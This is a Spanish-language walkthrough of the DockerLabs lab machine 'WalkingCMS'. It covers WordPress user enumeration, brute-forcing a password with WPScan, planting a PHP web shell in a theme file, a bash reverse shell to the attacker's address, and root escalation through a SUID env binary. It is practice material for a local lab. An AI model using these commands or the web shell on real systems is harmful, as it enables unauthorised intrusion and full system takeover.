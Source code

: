 ```yaml
---
Nombre de la máquina: WalkingCMS
Sistema Operativo: Linux
Dificultad: Easy 🟢
Skills: WordPress Users Enumeration, Password Brute Force, RCE, Abusing SUID
Enlace de descarga: https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398
---
```

---

## Montando el laboratorio

Lo primero que deberemos hacer para practicar con esta máquina es, dirigirnos a la página de [dockerlabs](https://dockerlabs.es/) y descargarnos la máquina desde el [siguiente enlace](https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398). Una vez descargada y descomprimida ejecutaremos el siguiente comando.

```
sudo bash auto_deploy.sh walkingcms.tar
```

Al ejecutar el comando, nos pedirá la contraseña. Al introducirla correctamente, tendremos que esperar hasta que nos indique que la máquina está desplegada.

![Desplegando máquina WalkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/533c5f76-ecd0-46e1-9a87-9f8db19e3056)

Como podemos ver en la imagen anterior, la máquina está desplegada correctamente y su dirección IP es la **172.17.0.2**. Esto nos habrá montado la máquina vulnerable *WalkingCMS* a través de *docker*. 

## Como eliminar la máquina vulnerable

En caso de querer eliminarla, simplemente presionaremos en el teclado **CTRL** + **C** y la máquina se eliminará automáticamente.

![Eliminando la máquina WalkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/dc3f0a36-b414-4d58-a0d9-c815f78b0582)

## Comprobando la conectividad

Una vez desplegada, deberemos cerciorarnos de que tenemos conectividad con esta. Para ello, haremos uso del comando `ping` para realizar el chequeo.

![ping máquina WalkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/f235c400-f917-4f5d-b38b-183bfdbab0be)

Comprobamos que tenemos conectividad y, podemos intuir mediante el **TTL** que, el sistema operativo de la máquina víctima es *Linux*.

## Enumeración

En primer lugar, empezaremos con la enumeración de la máquina. Para ello, haremos uso del comando `nmap` con el fin de enumerar los puertos abiertos que tiene dicha máquina.

```
sudo nmap -p- --open --min-rate 5000 -n -Pn -vvvv 172.17.0.2
```

Ejecutamos el comando.

![primer nmap máquina walkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/95c261bf-448e-4778-9b57-f1e4c4e65642)

El único puerto que parece abierto es el *80*. Ahora, vamos a ejecutar una serie de scripts de enumeración de la propia herramienta de `nmap` y detectaremos la versión y servicio que corren en este puerto.

```
sudo nmap -sCV -p80 172.17.0.2
```

Ejecutamos el comando y el resultado es el siguiente.

![segundo nmap máquina walkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/f0af7611-70d8-4792-b67a-b7bb06a80df7)

Observamos que el servicio que está corriendo en el puerto *80* es *Apache2* y a primera vista, vemos que es la página por defecto. Vamos a enumerar algunos posibles subdirectorios de la máquina con el siguiente comando.

```
sudo nmap --script=http-enum 172.17.0.2
```

El resultado del comando anterior es el de a continuación.

![tercer nmap máquina walkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/b6e8ac6d-f28f-4753-ac52-085ec63bdcb3)

Encontramos dos subdirectorios interesantes. Nos enfrentamos ante un WordPress, por lo que vamos a echarle un vistazo a la web.

![página principal wordpress máquina walkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/5899f06b-25bf-4ba9-9619-5d5968d4ed5b)

Utilizaremos [WPScan](https://github.com/wpscanteam/wpscan), una herramienta de GitHub que nos permitirá enumerar en detalle la página en cuestión. A demás, buscaremos posibles usuarios válidos y realizaremos un ataque de fuerza bruta a estos. Para que sea más eficaz y realice todas las tareas que queremos, utilizaremos el API Token de esta herramienta.

```
wpscan --url http://172.17.0.2/wordpress/ --api-token TOKEN --passwords /usr/share/wordlists/rockyou.txt
```

Sustituiremos "TOKEN" por nuestro token correspondiente que se nos ha generado después de inciar sesión en la página de *wpscan*. Después de realizarse el ataque de fuerza bruta, nos ha encontrado las siguientes credenciales.

![WordPress Brute Force](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/411fbfdf-029b-4f33-93e4-b82ed2d3f555)

Al tener credenciales válidas, iniciaremos sesión en WordPress desde `/wp-login.php`.

![inicio de sesión máquina WalkingCMS](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/ec4171d7-bc73-4c4d-90a1-d895e25d65fa)

Efectivamente, las credenciales eran válidas y conseguimos iniciar sesión. 

![acceso al wordpress](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/59817688-2592-4210-91b7-b00b67e3fb26)

## Acceso al sistema (RCE)

A partir de aqui ya es fácil acceder al sistema. Nos iremos a *Apariencia* + *Theme Code Editor*.

![Theme code editor walkingcms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/c7665da0-ce98-4f00-8359-99f128032c81)

Una vez dentro, editaremos el fichero `index.php` del tema *Twenty Twenty Two*, ya que es el tema actualmente en uso.

![editando index-php walkingcms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/a20f4223-d1d1-45d7-bee2-8f3503fb4c0b)

Seguidamente, introduciremos el siguiente código **PHP** que creará un parámetro, con nombre *cmd*, el cual nos permitirá ejecutar comandos de forma remota, logrando así un **RCE**.

```
<?php
	system($_GET['cmd']);
?>
```

Debería de quedar de la siguiente forma.

![código php malicioso walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/b11c57f6-44c7-4424-988c-39f4f53ea8dd)

Una vez editado, lo actualizaremos desde la parte inferior.

![update file walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/049182af-6e1d-484a-a79e-ba1bdc8d3bfd)

Lo último que nos queda es dirigirnos a la siguiente URL, donde se encuentra nuestro fichero que hemos editado, y le añadiremos algún comando para ver si el **RCE** se ha realizado con éxito.

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Podemos ver, que el comando se ha ejecutado correctamente y nos ha devuelto el resultando.

![rce ejecutado con éxito walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/5bf34ab1-1656-413f-926d-78bc8bffcdb5)

En este punto, hemos conseguido una *ejecución remota de comandos* por lo que nos enviaremos una *reverse shell* a nuestro equipo de atacantes, de la siguiente manera.

Lo primero que haremos es, ponernos en escucha por el puerto desde el que vayamos a enviarnos la *reverse shell*, en mi caso, será el puerto *443*.

![nc en escucha puerto 443 walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/787d7ca0-ea0e-43d2-b259-c322afb8770a)

Seguidamente, ejecutaremos la *reverse shell* desde la siguiente URL.

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

Al dirigirnos a la URL anterior, lograremos acceso al sistema.

![acceso al sistema walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/26ffc9ab-0333-4d22-959e-6594a2463428)

## Escalada de privilegios (acceso como root)

Lo que **SIEMPRE** se hace al entrar al sistema desde un WordPress, es mirar en el fichero `wp-config.php` que se encuentra en la raíz del directorio donde se aloja el **CMS**. Este fichero almacena credenciales de la BD.

![credenciales bd walking cms config-php](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/99ec44a3-f695-4d3d-945e-e7289f68e7a3)

Sin embargo, en este caso, después de enumerar la BD, no lograremos mucha información relevante que nos permita escalar privilegios. Al no encontrar nada, buscaremos por binarios *SUID* del sistema.

```
find / \-perm -4000 2>/dev/null
```

AL ejecutar el comando anterior, obtenemos el siguiente resultado.

![binarios suid walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/9d8a64f7-6c46-401b-9843-5d0616bb1fd3)

Nos percatamos que, el binario `/usr/bin/env` se encuentra en la lista. Este binario, nos permitirá escalar privilegios como el usuario propietario del mismo, el cual es *root*. Para ello, tendremos que ejecutar el comando de a continuación.

```
env /bin/sh -p
```

Al ejecutar el comando, conseguiremos acceso como *root* a la máquina víctima.

![lpe root suid env walking cms](https://github.com/h3g0c1v/DockerLabs-Machine-Write-Ups/assets/66705453/42f3d933-2a27-488d-93bd-21d2312bdc99)

En este punto, hemos conseguido comprometer la seguridad del sistema, logrando acceso total al mismo.
